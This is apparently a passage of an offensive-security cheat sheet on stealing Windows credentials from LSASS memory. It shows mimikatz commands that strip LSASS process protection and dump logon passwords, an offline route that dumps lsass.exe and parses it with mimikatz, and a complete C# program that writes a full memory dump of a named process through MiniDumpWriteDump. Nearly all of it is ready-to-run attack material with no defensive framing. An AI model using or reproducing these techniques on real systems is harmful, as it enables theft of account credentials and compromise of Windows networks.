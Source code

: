 mimikatz # !processprotect /process:lsass.exe /remove
Process : lsass.exe
PID 536 -> 00/00 [0-0-0]

mimikatz # sekurlsa::logonpasswords

```
##### Offline dump lsass
use taskmanager dump lsass process memory -> lsass.dmp
```
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```
#### Process Memory dump C#
```
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.IO;

namespace ProcessMemorydump
{
    class Program
    {
        [DllImport("Dbghelp.dll")]
        static extern bool MiniDumpWriteDump(IntPtr hProcess, int ProcessId,IntPtr hFile, int DumpType, IntPtr ExceptionParam,IntPtr UserStreamParam, IntPtr CallbackParam);

        [DllImport("kernel32.dll")]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle,int processId);


        static void Main(string[] args)
        {
            if (args.Length < 1) {
                Console.WriteLine("Usage:"+AppDomain.CurrentDomain.FriendlyName + " processname " + "path" );
                System.Environment.Exit(1);
            }
            string processname = args[0];
            string dir = args[1];

            Process[] pi = Process.GetProcessesByName(processname);
            int processname_pid = pi[0].Id;

            IntPtr handle = OpenProcess(0x001F0FFF, false, processname_pid);

            string pathfile = dir + processname + ".dmp";

            FileStream dumpFile = new FileStream(pathfile, FileMode.Create);

            bool dumped = MiniDumpWriteDump(handle, processname_pid, dumpFile.SafeFileHandle.DangerousGetHandle(), 2, IntPtr.Zero, IntPtr.Zero,IntPtr.Zero);

            Console.WriteLine("Dump " + processname +" Process Memory is " + dumped);
        }
    }
}
